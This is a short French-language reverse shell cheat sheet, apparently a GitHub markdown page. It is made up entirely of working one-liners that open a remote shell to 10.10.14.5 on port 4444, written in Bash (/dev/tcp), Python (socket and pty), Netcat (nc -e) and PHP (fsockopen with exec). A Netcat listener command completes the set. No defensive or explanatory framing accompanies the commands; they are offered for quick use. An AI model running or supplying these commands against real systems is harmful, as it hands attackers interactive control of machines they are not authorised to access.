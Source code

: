 # Reverse Shell Cheatsheet

Quelques commandes utiles pour une reverse shell rapide :

## Bash Reverse Shell
```bash
bash -i >& /dev/tcp/10.10.14.5/4444 0>&1



🐍 Python Reverse Shell

python3 -c 'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.5",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);pty.spawn("/bin/bash")'



📞 Netcat Reverse Shell

nc -e /bin/bash 10.10.14.5 4444


📡 Listener avec Netcat

nc -lvnp 4444


🧬 PHP Reverse Shell

php -r '$sock=fsockopen("10.10.14.5",4444);exec("/bin/bash -i <&3 >&3 2>&3");'


